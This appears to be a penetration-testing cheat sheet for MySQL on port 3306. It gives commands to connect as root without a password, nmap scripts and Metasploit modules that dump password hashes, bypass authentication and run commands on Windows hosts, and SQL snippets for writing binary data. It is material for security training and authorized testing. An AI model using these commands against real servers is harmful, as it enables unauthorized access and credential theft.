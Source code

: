 # 3306 - Pentesting Mysql

## **Basic Information**

**MySQL** is a freely available open source Relational Database Management System \(RDBMS\) that uses Structured Query Language \(**SQL**\).  
\_\*\*\_From [here](https://www.siteground.com/tutorials/php-mysql/mysql/).

**Default port:** 3306

```text
3306/tcp open  mysql
```

## **Connect**

### **Local**

```bash
mysql -u root # Connect to root without password
mysql -u root -p # A password will be asked (check someone)
```

### Remote

```bash
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost
```

## Enumeration

Some of the enumeration actions require valid credentials

```bash
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
msf> use auxiliary/scanner/mysql/mysql_hashdump #Creds
msf> use auxiliary/admin/mysql/mysql_enum #Creds
msf> use auxiliary/scanner/mysql/mysql_schemadump #Creds 
msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds
```

[**Brute force**](../brute-force.md#mysql)

## Write any binary data

```bash
CONVERT(unhex("6f6e2e786d6c55540900037748b75c7249b75"), BINARY)
CONVERT(from_base64("aG9sYWFhCg=="), BINARY)
```
